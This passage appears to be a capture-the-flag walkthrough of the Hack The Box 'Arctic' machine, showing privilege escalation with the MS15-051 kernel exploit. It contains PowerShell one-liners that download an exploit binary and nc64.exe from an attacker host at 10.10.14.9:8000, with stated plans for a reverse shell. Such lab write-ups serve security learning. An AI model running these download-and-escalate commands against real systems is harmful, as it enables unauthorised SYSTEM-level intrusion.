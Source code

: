 ## MS15-051 UPLOAD

From `sherlork` we can then upload an `Ms15-051` exe so that we can execute the exploit.so we download this zip which has a good `ms15-051`  for 64 Vulnerability [ZIP](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) Then we run this code so that we can upload the `mS15-051` and also execute to check if it working.

```sh
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.9:8000/Ms15.exe','Ms15.exe')"
```

![](/Windows/Windows-Easy/Arctic/Screenshots/MS15.png)

Then when we execute it with `whoami` we get that we can execute `NT\Authority`

![](/Windows/Windows-Easy/Arctic/Screenshots/whoami.png)

isnce we can execute some command using that we need a permanet shell that is easy to use so what we can do is to download a 64 `nc` so that we can use it to execute a reverse shell into the root user. [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) so we upload the `nc64.exe` so that by using it we can be able to get a root privillage.

```sh
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.9:8000/nc64.exe','nc64.exe')"
```
